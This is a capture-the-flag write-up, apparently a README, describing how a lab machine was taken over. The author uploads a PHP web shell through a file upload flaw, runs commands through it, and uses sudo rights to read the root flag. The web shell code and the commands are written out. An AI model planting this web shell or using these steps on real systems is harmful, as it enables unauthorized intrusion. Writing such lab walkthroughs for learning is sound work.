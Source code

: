 # Step by step breakdown

**🔥 Exploited file upload vulnerability → PHP shell → Sudo privilege → Captured flag. No reverse shells needed this time.**

I first started off by trying to run a classic php shell through the file upload vulnerability

    <?php
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
    ?>

I saved this code to a file and named it shell.php and uploaded it through the file upload functionality

(file upload output screenshot)

afterwards I traversed to the URL where the file I executed a simple whoami command by appending '?cmd=whoami' to the URL


(Output of whoami command)


With www-data I cannot access the /root directory, so I know I have to try some light privilege escalation techniques. I start by trying the sudo -l command which outputs:

(sudo -l output here)

which leads me to believe that I can simply access the root directory with sudo privileges without having to escalate to a root user, so I run

    ls -la /root

to view all the files in root directory

(output for root directory)

Then it's BBQ chicken from there

(funny gif here)

# Capturing the flag 🏁

    sudo cat /root/flag.txt

(another funny gif here)

Flag captured. Game over. 🎯

# Lessons learned

Don't waste trying to launch reverse shells on rooms like this cuz they're hosted on AWS and more than likely won't let you establish a connection and you'll spend twenty minutes trying to figure out what's wrong only to find out that you should have just stuck with the webshell instead of trying to be a red team operator

(frustrated gif)
